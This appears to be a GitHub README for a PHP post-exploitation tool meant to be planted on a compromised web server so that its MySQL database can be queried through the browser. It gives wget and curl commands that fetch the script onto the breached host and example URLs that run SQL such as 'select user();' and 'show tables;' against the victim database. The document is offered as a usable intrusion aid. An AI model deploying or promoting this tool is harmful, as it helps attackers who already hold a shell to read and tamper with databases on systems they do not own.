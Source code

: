 # MySQL-Web-Query

There are cases (in a post-exploitation scenario) where, after committing a web application and getting the shell, it is not possible to interact with MySQL due to the limitations of interaction from the shell that was obtained.

In this case **MySQL-Web-Query** can be useful.

### :hammer_and_wrench: Requirements

The compromised web server is required to use PHP technology and MySQL as DBMS.

### 📋 How to use

Transfer the script to the web server in a directory accessible by the browser:
```
wget https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php
```
or
```
curl https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php > query.php
```
<br>

**db** (database) and **q** (query) parameters must be informed. Examples:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)
